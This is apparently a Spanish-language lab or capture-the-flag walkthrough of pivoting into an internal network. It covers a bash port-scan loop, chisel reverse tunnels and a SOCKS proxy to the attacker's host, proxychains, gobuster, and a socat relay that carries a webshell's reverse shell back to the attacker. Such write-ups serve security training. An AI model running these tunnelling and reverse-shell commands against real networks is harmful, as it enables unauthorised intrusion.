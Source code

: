 Una vez dentro de la máquina friendly 3 vemos que tenemos la otra interfaz de red que se conecta con la siguiente máquina:
![[Pasted image 20230813134718.png]]
Vamos a encontrar hosts que estén dentro de esa interfaz 10.10.10.5/24, por tanto creamos un script de bash que vaya haciendo un ping a cada uno de los host dentro del rango de red y los puertos abiertos:
```bash
#!/bin/bash

for i in $(seq 1 254); do
        for port in  21 22 80 443 445 8080; do
                timeout 1 bash -c "echo '' > /dev/tcp/10.10.10.$i/$port" &>/dev/null && echo "[+] Host 10.10.10.$i - PORT $port - OPEN" &
        done
done; wait
```
Y vemos que nos encuentra estos hosts, donde la .5 somos nosotros, y la .4 es el objetivo:
![[Pasted image 20230813164756.png]]
De todos modos, si queremos llegar a la 10.10.10.4 desde nuestra máquina atacante, tenemos que usar chisel:
![[Pasted image 20230813135914.png]]
Nos lo descargamos:
![[Pasted image 20230813140022.png]]
Nos lo compartimos primero con la máquina friendly3:
![[Pasted image 20230813140205.png]]
![[Pasted image 20230813140218.png]]
Por tanto, desde la máquina atacante abrimos un servidor con chisel para recibir la conexiones entrantes:
```bash
./chisel_1.8.1_linux_amd64 server --reverse -p 1234
```
![[Pasted image 20230813140452.png]]
Y ahora en la máquina víctima ejecutamos este otro comando para recibir el puerto 80 de la máquina objetivo dentro del 1234 de nuestra máquina atacante:
```bash
./chisel client 192.168.0.30:1234 R:80:10.10.10.6:80
```
![[Pasted image 20230813165106.png]]
![[Pasted image 20230813165051.png]]
De tal forma que ahora nuestro puerto 80 va a ser el puerto 80 de la máquina objetivo:
![[Pasted image 20230813165142.png]]
Pero lo ideal sería poder traernos todos los puertos en lugar de hacerlo uno a uno, por lo que usaremos un socks con este parámetro:
```bash
./chisel client 192.168.0.30:1234 R:socks
```
![[Pasted image 20230813162111.png]]
Donde crearemos un tunel por el puerto 1080, el cual se utiliza por defecto:
![[Pasted image 20230813162132.png]]
Y ahora nos abrimos el fichero proxychains4.conf:
```bash
nano /etc/proxychains4.conf
```
Y tenemos que asegurarnos que esta línea esté descomentada:
![[Pasted image 20230813162427.png]]
Y en la parte de debajo del todo tenemos que escribir lo siguiente, que será nuestra propia IP por el tunel que está dentro del puerto 1080:
![[Pasted image 20230813162536.png]]
Y ahora si hacemos un escaneo de nmap pasando por el proxychains, vamos a poder realizar correctamente este escaneo:
![[Pasted image 20230813165257.png]]
Lo mismo ocurriría si queremos ejecutar un whatweb o cualquier otra herramienta, ya que tenemos que pasarla primero por el túnel del proxychains:
![[Pasted image 20230813165318.png]]
Pero en el navegador, si queremos visualizar el puerto 80, tendremos que pasarle el proxy de la siguiente forma:
![[Pasted image 20230813163455.png]]
Y ya podremos visualizar el puerto 80 de la máquina sin problema:
![[Pasted image 20230813165400.png]]
Lo mismo haríamos por ejemplo si queremos acceder vía ftp, donde le pasaremos primero el túnel del proxychains:
![[Pasted image 20230813165515.png]]
Por otra parte, si quisiéramos hacer fuzzing, tendríamos que pasar también por el proxychains o utilizar parámetros específicos de gobuster o la herramienta que estemos usando, por lo que lo haríamos de esta forma:
```bash
gobuster dir -u http://10.10.10.6 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt --proxy socks5://127.0.0.1:1080
```
![[Pasted image 20230813165642.png]]
Vamos a hacer la intrusión donde debemos de subir la webshell a la máquina víctima para enviarnos la reverse shell:
![[Pasted image 20230813165756.png]]
Y ahora la IP que debemos poner para recibir la reverse shell debe ser la de la máquina intermedia donde se estará ejecutando socat:
![[Pasted image 20230816155814.png]]
Y la subimos:
![[Pasted image 20230813170102.png]]
De todos modos, para recibir la reverse shell tendremos que usar socat, por lo que lo vamos a descargar:
![[Pasted image 20230816160137.png]]
Y ahora este binario de socat nos lo compartimos con la máquina friendly 3:
![[Pasted image 20230813170304.png]]
Y deste otra ventana de la friendly 3 nos lo descargamos:
![[Pasted image 20230813170551.png]]
Ahora ejecutamos el socat en la máquina intermedia, mandando al puerto 443 de la máquina atacante todo el tráfico recibido por el puerto 4343 de la máquina intermedia:
```bash
./socat tcp-l:443,fork,reuseaddr tcp:192.168.0.30:443
```
![[Pasted image 20230816160350.png]]
Y ahora si escuchamos con netcat, habremos recibido la conexión al haber llamado al fichero php malicioso desde el navegador:
![[Pasted image 20230816160418.png]]
![[Pasted image 20230816160429.png]]



